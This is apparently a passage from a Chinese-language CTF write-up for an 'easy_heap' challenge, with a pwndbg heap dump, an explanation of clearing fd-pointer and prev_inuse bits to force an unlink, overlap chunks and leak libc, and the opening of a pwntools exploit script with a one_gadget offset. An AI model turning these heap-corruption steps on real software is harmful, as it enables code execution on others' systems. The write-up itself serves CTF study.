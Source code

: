 ```
0x5590977b1240:	0x0000000000000000	0x0000000000000000
0x5590977b1250:	0x0000000000000000	0x00000000000000b1
0x5590977b1260:	0x00005590977b1310	0x00000000000000f8
0x5590977b1270:	0x00005590977b1410	0x00000000000000f8
pwndbg> 
0x5590977b1280:	0x00005590977b1510	0x00000000000000f8
0x5590977b1290:	0x00005590977b1610	0x00000000000000f8
0x5590977b12a0:	0x00005590977b1710	0x00000000000000f8
0x5590977b12b0:	0x00005590977b1810	0x00000000000000f8
0x5590977b12c0:	0x00005590977b1910	0x00000000000000f8
0x5590977b12d0:	0x00005590977b1a10	0x00000000000000f8
0x5590977b12e0:	0x00005590977b1b10	0x00000000000000f8
0x5590977b12f0:	0x00005590977b1c10	0x00000000000000f8
0x5590977b1300:	0x0000000000000000	0x0000000000000101
0x5590977b1310:	0x0000000000000000	0x0000000000000000
pwndbg> 
0x5590977b1320:	0x0000000000000000	0x0000000000000000
0x5590977b1330:	0x0000000000000000	0x0000000000000000
0x5590977b1340:	0x0000000000000000	0x0000000000000000

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>可以看到堆块头都刚好以0x100对齐了，擦除了fd指针的lsb之后正好是一个类似smallbin double link的状态，只要分配的smallbin擦除其fd指针的lsb，再把要unlink的smallbin的下一个堆块的pre_inuse标志擦除，就可以成功绕过free检查成功unlink创建重叠堆块,同时leak出libc基址，利用过程如下：</font></br>

```python
from pwn import *

DEBUG=1

if DEBUG==1:
    context.log_level='debug'

p=process('./easy_heap',env={'LD_PRELOAD':'./libc64.so'})
elf=ELF('./libc64.so')
one_gadget=0x4f322

sd=lambda c: p.send(c)
sl=lambda c: p.sendline(c)
rv=lambda c: p.recvuntil(c)
sa=lambda a,c: p.sendafter(a,c)
sla=lambda a,c: p.sendlineafter(a,c)


def alloc(size,content=''):
    sla('command?\n> ','1')
    sla('size \n> ',str(size))
    sla('content \n> ',content)

def free(index):
    sla('command?\n> ','2')
    sla('index \n> ',str(index))

def show(index):
    sla('command?\n> ','3')
    sla('index \n> ',str(index))

for i in range(10):
    alloc(0xf8) # 0-9
gdb.attach(p)

free(1)
free(2)
```